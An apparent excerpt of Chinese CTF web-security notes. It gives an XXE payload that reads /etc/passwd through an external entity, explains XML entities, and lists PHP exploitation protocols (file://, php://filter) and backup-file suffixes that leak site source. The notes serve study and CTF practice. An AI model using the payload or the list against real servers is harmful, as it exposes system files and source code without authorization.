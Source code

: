     <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE note [
    <!ENTITY admin SYSTEM "file:///etc/passwd">
    ]>
    <user><username>&admin;</username><password>123456</password></user>
    -----------------------------------------------------
    ```
    payload解释:
    `<?xml version="1.0" encoding="UTF-8" standalone="yes"?>` 称为 XML prolog ，用于声明XML文档的版本和编码，是可选的，必须放在文档开头。

    `standalone`值是`yes`的时候表示DTD仅用于验证文档结构，从而外部实体将被禁用，但它的默认值是no，而且有些parser会直接忽略这一项。

    按实体有无参分类，实体分为一般实体和参数实体，一般实体的声明：`<!ENTITY 实体名称 "实体内容">`，引用一般实体的方法：`&实体名称;`

    外部实体，用来引入外部资源。有SYSTEM和PUBLIC两个关键字，表示实体来自本地计算机还是公共计算机。

    因为将`file:///flag命名为admin`，所以下面用`&admin`。

    PHP引用外部实体，常见的利用协议：

    ```s
    file://文件绝对路径 如：file:///etc/passwd

    http://url/file.txt

    php://filter/read=convert.base64-encode/resource=xxx.php

    ```
    ```

# 源码泄露

## 常用备份文件后缀

* .phps

    >`phps`文件就是`php`的源代码文件，通常用于提供给用户(访问者)查看`php`代码，因为用户无法直接通过浏览器看到`php`文件内容，所以需要用`phps`文件代替。
    >它的MIME类型为：text/html, application/x-httpd-php-source, application/x-httpd-php3-source。

* .rar
* .zip

    www.zip(网站源码文件)

* .7z

* .tar.gz

* .bak

* .swp

* .txt

* .html

>参见[ctf/web源码泄露及利用办法【总结中】](https://blog.csdn.net/wy_97/article/details/78165051?depth_1-utm_source=distribute.pc_relevant.none-task&utm_source=distribute.pc_relevant.none-task)
## 源码泄露
